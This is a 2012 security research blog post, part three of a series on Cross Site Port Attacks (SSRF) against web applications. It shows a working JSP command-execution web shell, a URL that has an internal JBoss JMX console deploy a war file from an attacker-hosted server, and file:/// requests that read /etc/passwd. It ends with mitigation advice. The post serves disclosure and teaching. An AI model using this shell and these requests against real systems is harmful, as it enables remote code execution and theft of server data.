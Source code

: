 ```yaml
---
title: "Cross Site Port Attacks - XSPA - Part 3"
date: 2012-11-14
categories:
- bugbounty
- research
- appsec
- cross site port attacks
tags:
- xspa
- ssrf

thumbnailImagePosition: left
thumbnailImage: /img/cross-site-port-attacks---xspa---part-3/1.png
---
```


This is the third post in the 3 part series that explains XSPA, the attacks and possible countermeasures. In this post we will see other interesting attacks and also see how developers can prevent XSPA or limit the attack surface itself. 

<!--more-->

In the last 2 posts we saw what Cross Site Port Attacks (XSPA) are and what are the different attacks that are possible via XSPA. This post is in continuation with the previous posts and is the last in the series of three. In this post we will see other interesting attacks and also see how developers can prevent XSPA or limit the attack surface itself. 

- Read [Cross Site Port Attacks - XSPA - Part 1](/2012/11/cross-site-port-attacks-xspa-part-1/)
- Read [Cross Site Port Attacks - XSPA - Part 2](/2012/11/cross-site-port-attacks-xspa-part-2/)

### Attacks - Attacking Internal Vulnerable Web Applications

Most often than not, intranet applications lack even the most basic security allowing an attacker on the internal network to attack and access server resources including data and code. Being an intranet application, reaching it from the Internet requires VPN access to the internal network or specialized connectivity on the same lines. Using XSPA, however, an attacker can target vulnerable internal web applications via the Internet exposed web application. 

A very common example I can think of and which I have seen during numerous pentests is the presence of a JBoss Server vulnerable to a bunch of issues. My most favorite of them being the absence of authentication, by default, on the JMX console which runs on port 8080 by default.

![](/img/cross-site-port-attacks---xspa---part-3/1.png)

A [well documented hack using the JMX console](https://www.google.co.in/search?q=hacking%20jboss%20jmx-console), allows an attacker to deploy a war file containing JSP code that would allow command execution on the server. If an attacker has direct access to the JMX console, then deploying the war file containing the following JSP code is relatively straightforward:

```
<%@ page import="java.util.*,java.io.*"%>
<pre>
<% Process p = Runtime.getRuntime().exec("cmd /c " + request.getParameter("x")); 
DataInputStream dis = new DataInputStream(p.getInputStream());
String disr = dis.readLine();
while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
} 
%> 
</pre> 
```

Using the `MainDeployer` under jboss.system:service in the JMX Bean View we can deploy a war file containing a JSP shell. The `MainDeployer` can be found at the following address: 

```
http://example_server:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name;=jboss.system%3Aservice%3DMainDeployer
```

Using the `MainDeployer`, for example, a war file named `cmd.war` containing a shell named `shell.jsp` can be deployed to the server and accessed via http://example_server:8080/cmd/shell.jsp. Commands can then be executed via `shell.jsp?x=[command]`. To perform this via XSPA we need to replace the `example_server` with the IP/hostname of the server running JBoss on the internal network. 

A small problem here that becomes a roadblock in performing this attack via XSPA is that the file deploy works via a POST request and hence we cannot craft a URL (atleast we think so) that would deploy the war file to the server. This can easily be solved by converting the POST to a GET request for the JMX console. On a test installation, we can identify the variables that are being sent to the JBoss server when the Main Deployer's deploy() function is called. Using your favorite proxy, or simply using the Firefox addon - Web Developer's "Convert POST to GET" functionality, we can construct a URL that would allow deploying of the cmd.war file to the server. We then only need to host the cmd.war file on an Internet facing server so that we can specify the cmd.war file URL as arg0. The final URL would look something like (assuming JBoss server is running on the same web server):

```
http://127.0.0.1:8080/jmx-console/HtmlAdaptor?action=invokeOp&name;=jboss.system:service=MainDeployer&methodIndex;=17&arg0;=http://our_public_internet_server/utils/cmd.war
```

![](/img/cross-site-port-attacks---xspa---part-3/2.png)

Then its a matter of requesting shell.jsp via the XSPA vulnerable web application. For example, the following input would return the directory listing on the JBoss server (assuming its Windows, for Linux, x=ls%20-al can be used) 

```
http://127.0.0.1:8080/cmd/shell.jsp?x=dir
```

![](/img/cross-site-port-attacks---xspa---part-3/3.png)

```
http://127.0.0.1:8080/cmd/shell.jsp?x=tasklist
```

![](/img/cross-site-port-attacks---xspa---part-3/4.png)

We have successfully attacked an internal vulnerable web application from the Internet using XSPA. We can then use the shell to download a reverse connect program that would give higher flexibility over issuing commands. Similarily other internal applications vulnerable to threats like SQL Injection, parameter manipulation and other URL based attacks can be targeted from the Internet. 

### Attacks - Reading local files using file:/// protocol

All the attacks that we saw till now make use of the fact that the XSPA vulnerable web application creates an HTTP request to the requested resource. The protocol in all cases was specified by the attacker. On the other hand, if we specify the file protocol handler, we maybe able to read local files on the server. An input of the following form would cause the application to read files on disk: 

- **Request: file:///C:/Windows/win.ini**

![](/img/cross-site-port-attacks---xspa---part-3/5.png)

The following screengrab shows the reading of the `/etc/passwd` file on an Adobe owned server via Adobe's Omniture web application. The request was `file:///etc/passwd`. Adobe has now fixed this issue and credited me on the [Adobe Hall of Fame](https://www.adobe.com/support/security/bulletins/securityacknowledgments.html) for the same: 

![](/img/cross-site-port-attacks---xspa---part-3/6.png)

## How do you fix this?

There are multiple ways of mitigating this vulnerability, the most ideal and common techniques of thwarting XSPA, however, are listed below:

1. Response Handling - Validating responses received from remote resources on the server side is the most basic mitigation that can be readily implemented. If a web application expects specific content type on the server, programmatically ensure that the data received satisfies checks imposed on the server before displaying or processing the data for the client. 

2. Error handling and messages - Display generic error messages to the client in case something goes wrong. If content type validation fails, display generic errors to the client like "Invalid Data retrieved". Also ensure that the message is the same when the request fails on the backend and if invalid data is received. This will prevent the application from being abused as distinct error messages will be absent for closed and open ports. Under no circumstance should the raw response received from the remote server be displayed to the client. 

3. Restrict connectivity to HTTP based ports - This may not always be the brightest thing to do, but restricting the ports to which the web application can connect to only HTTP ports like 80, 443, 8080, 8090 etc. can lower the attack surface. Several popular web applications on the Internet just strip any port specifications in the input URL and connect to the port that is determined by the protocol handler (http - 80, https - 443). 

4. Blacklist IP addresses - Internal IP addresses, localhost specifications and internal hostnames can all be blacklisted to prevent the web application from being abused to fetch data/attack these devices. Implementing this will protect servers from one time attack vectors. For example, even if the first fix (above) is implemented, the data is still being sent to the remote service. If an attack that does not need to see responses is executed (like a buffer overflow exploit) then this fix can actually prevent data from ever reaching the vulnerable device. Response handling is then not required at all as a request was never made. 

5. Disable unwanted protocols - Allow only http and https to make requests to remote servers. Whitelisting these protocols will prevent the web application from making requests over other protocols like `file://`, `gopher://`, `ftp://` and other URI schemes.

## Conclusion

Using web applications to make requests to remote resources, the local network and even localhost is a technique that has been known to pentesters for some time now. It has been termed as Server Side Request Forgeries, Cross Site Port Attacks and even Server Side Site Scanning, but the primary idea is to present it to the community and show that this vulnerability is extremely common. XSPA, in the case of this research, can be used to proxy attacks via vulnerable web applications to remote servers and local systems.

We have seen that XSPA can be used to port scan remote Internet facing servers, intranet devices and the local web server itself. Banner grabbing is also possible in some cases. XSPA can also be used to exploit vulnerable programs running on the Intranet or on the local web server. Fingerprinting intranet web applications using static default files & application behaviour is possible. It is also possible in several cases to attack internal/external web applications that are vulnerable to GET parameter based vulnerabilities (SQLi via URL, parameter manipulation etc.). Lastly, XSPA has been used to document local file read capabilities using the `file://` protocol handler in Adobe's Omniture web application. 

Mitigating XSPA takes a combination of blacklisting IP addresses, whitelisting connect ports and protocols and proper non descriptive error handling. 

In the next several posts I will publish disclosures regarding XSPA in several websites on the Internet which triggered the research into this vulnerability in the first place. 

---